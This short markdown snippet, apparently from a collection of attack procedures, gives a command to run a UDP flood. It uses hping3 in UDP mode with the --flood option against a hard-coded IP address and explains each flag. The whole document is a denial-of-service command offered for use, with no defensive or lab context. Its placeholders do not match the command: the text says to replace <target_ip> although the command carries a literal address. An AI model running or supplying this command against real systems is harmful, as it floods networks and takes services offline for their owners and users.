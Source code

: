 # UDP Flood - Command Execution

## Attack Command
Run the following command to execute the UDP Flood attack:
hping3 -2 --flood -d <payload_size> -p <port> 192.10.1.1 
-2: Uses UDP mode.
--flood: Sends packets as fast as possible.
-d <payload_size>: Specifies the size of the packet payload in bytes
-p <target_port>: Target port.
<target_ip>: Replace with the target's IP
